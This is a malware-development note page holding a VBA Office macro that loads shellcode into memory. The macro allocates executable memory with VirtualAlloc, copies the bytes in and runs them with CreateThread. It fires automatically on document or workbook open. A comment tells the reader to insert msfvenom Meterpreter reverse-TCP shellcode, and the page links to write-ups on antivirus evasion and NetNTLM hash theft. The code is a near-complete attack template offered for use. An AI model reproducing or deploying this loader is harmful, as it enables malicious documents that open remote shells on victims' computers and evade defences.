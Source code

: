 # VBA

```vbscript
#If Vba7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal lpThread As Long, ByVal dwSize As Long, ByVal lpAddress As LongPtr, lpParameter As Long, ByVal dwCreation As Long, lpThread As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocation As Long, ByVal flProtect As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Destination As LongPtr, ByRef Source As Any, ByVal Length As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal lpThread As Long, ByVal dwSize As Long, ByVal lpAddress As Long, lpParameter As Long, ByVal dwCreation As Long, lpThread As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocation As Long, ByVal flProtect As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Destination As Long, ByRef Source As Any, ByVal Length As Long) As Long
#EndIf

Sub Auto_Open()
        Dim myByte As Long, myArray As Variant, offset As Long
#If Vba7 Then
        Dim rwxpage As LongPtr, res As LongPtr
#Else
        Dim rwxpage As Long, res As Long
#EndIf
        ' Replace this shellcode with:
        ' msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f vba
        myArray = Array()

        rwxpage = VirtualAlloc(0, UBound(myArray), &H1000, &H40)
        For offset = LBound(myArray) To UBound(myArray)
                myByte = myArray(offset)
                res = RtlMoveMemory(rwxpage + offset, myByte, 1)
        Next offset
        res = CreateThread(0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
```

---
## References

### Backlinks

- [[03 - Malware Development/Techniques/Implant Execution/Shellcode Loader/Memory Allocation/Windows/WinAPI/Simple Loader/Virtual Allocation/C]]

### San3ncrypt3d

- [San3ncrypt3d: Running ShellCode in Memory | AV Evasion – VBA Version](https://san3ncrypt3d.com/2021/08/13/VBAShell/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)